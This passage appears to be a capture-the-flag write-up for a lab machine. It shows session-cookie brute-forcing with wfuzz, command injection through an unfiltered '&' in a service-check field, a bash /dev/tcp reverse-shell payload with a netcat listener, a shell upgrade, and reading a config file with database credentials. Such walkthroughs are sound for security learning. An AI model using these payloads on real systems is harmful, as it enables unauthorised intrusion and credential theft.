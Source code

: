 Now, with `wfuzz` we can get final session
```
$ wfuzz -u http://$IP/administration.php -w cookies.txt -X POST -b 'PHPSESSID= FUZZ' --hh 51
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.124.164/administration.php
Total requests: 150

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                            
=====================================================================

000000082:   200        42 L     66 W       864 Ch      [REDACTED]                                               


```

Copy that payload and put it as `PHPSESSIONID` cookie - then visit `administration.php` - and we have it

We've successfully hijacked session

Now, we have input that checks state of services - luckily it doesn't check `&` symbol, so we can inject commands like `id` 
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Or a reverse shell - set up netcat listener
```
$ nc -lvnp 2137 
```

And use this payload
```
& /bin/bash -c 'bash -i 1>& /dev/tcp/[YOUR IP]/2137 0>&1'
```

Then, after we get the shell - upgrade it
```
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
```

I've found one interesting thing is `config.php`
```
$ cat config.php
cat config.php
<?php
$servername = "localhost";
$username = "rick";
$password = "[REDACTED]";
$dbname = "hijack";

// Create connection
$mysqli = new mysqli($servername, $username, $password, $dbname);

// Check connection
if ($mysqli->connect_error) {
  die("Connection failed: " . $mysqli->connect_error);
}
?>
```
